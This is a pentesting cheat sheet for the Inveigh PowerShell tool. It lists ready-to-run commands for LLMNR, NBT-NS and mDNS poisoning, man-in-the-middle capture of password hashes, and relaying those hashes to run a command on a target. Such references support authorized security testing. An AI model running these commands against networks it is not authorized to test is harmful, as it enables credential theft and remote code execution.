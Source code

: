 # inveigh

% inveigh, LLMNR, NBT-NS, Poisoning, man in the middle

## inveigh - launch
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y -IP <listening_ip> -SpooferIP <redirect_ip>
```

## inveigh - clear hashtable
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Clear-Inveigh
```

## inveigh - get data from hashtable
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Get-Inveigh
```

## inveigh - stop all running modules
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Stop-Inveigh
```

## inveigh - enable rela-time console output
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Watch-Inveigh
```

## inveigh - Relaying Hashes Captured w/ HTTP Proxy
#plateform/windows #target/serve #cat/ATTACK/MITM 
```
Invoke-InveighRelay -ConsoleOutput Y -Target <targetIP> -Command "whoami" -Attack Enumerate,Execute,Session
```